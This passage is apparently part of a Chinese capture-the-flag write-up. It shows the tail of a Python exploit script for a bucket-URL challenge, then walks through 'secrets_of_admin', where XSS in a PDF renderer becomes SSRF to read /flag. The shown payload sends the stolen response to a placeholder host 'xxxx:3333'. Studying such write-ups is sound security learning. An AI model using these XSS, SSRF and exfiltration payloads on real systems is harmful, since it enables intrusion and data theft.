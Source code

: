 ```
                  "bucket": "https://09e8195ebf97db5752c72731c7e75995.oss-cn-beijing.ichunqiu.com/"`}`
    tmp = s.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data,allow_redirects=False)
    print(tmp.status_code)
    print(tmp.headers['Location'])
    token = tmp.headers['Location'][19:]
    burp1_data = `{`"affiliation": "ichunqiu",
                  "age": "20",
                  "bucket": bucket
                  `}`
    tmp = s.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp1_data, allow_redirects=False)
    ver_url = url + 'user/verify?token=' + token
    tmp = s.get(url=ver_url)
    #print(tmp.text)
def vist():
    vist_url = url + 'user/bucket'
    tmp = s.get(vist_url)
    print(tmp.text)


signup('crispr1')
chage_website = "http://47.95.219.96/test.html?a=oss-cn-beijing.ichunqiu.com"
change(chage_website)
vist()
```

访问对应的html然后监听:

[![](https://p3.ssl.qhimg.com/t010130e477a6f602c8.png)](https://p3.ssl.qhimg.com/t010130e477a6f602c8.png)

### <a class="reference-link" name="secrets_of_admin"></a>secrets_of_admin

进去之后发现存在admin的密码已知，进去之后调用了`http-pdf`库，该库存在任意文件读取漏洞，而`$contents`存在xss，而在这里对`content`进行了过滤，可以使用数组绕过，当其为数组时`include()`会失败，基于`req.socket.remoteAddress`无法绕过,因此可以利用`xhr`进行SSRF，来访问`/api/files`

[![](https://p5.ssl.qhimg.com/t011c0b8c078e8bd9c0.png)](https://p5.ssl.qhimg.com/t011c0b8c078e8bd9c0.png)

可以将`/etc/passwd`上传到`admin`用户，`checksum`任意，然后我们利用`/api/files/checksum`来读取文件<br>
先试下能不能xss发现存在xss:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01126ac7d614f06b18.png)

那直接xhr访问127.0.0.1即可，注意ts开放在8888端口，这里被坑了很久。。。。

```
&lt;script&gt;
    var xhr = new XMLHttpRequest();    
    xhr.open('GET', 'http://127.0.0.1:8888/api/files?username=admin&amp;filename=/flag&amp;checksum=be5a14a8e504a66979f6938338b0662c', true);
    xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    xhr.send();
    var xhr1 = new XMLHttpRequest();    
    xhr1.open('GET', 'http://xxxx:3333?res='+xhr.responseText.toString(),true);
    xhr1.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    xhr1.send();
    &lt;/script&gt;
```
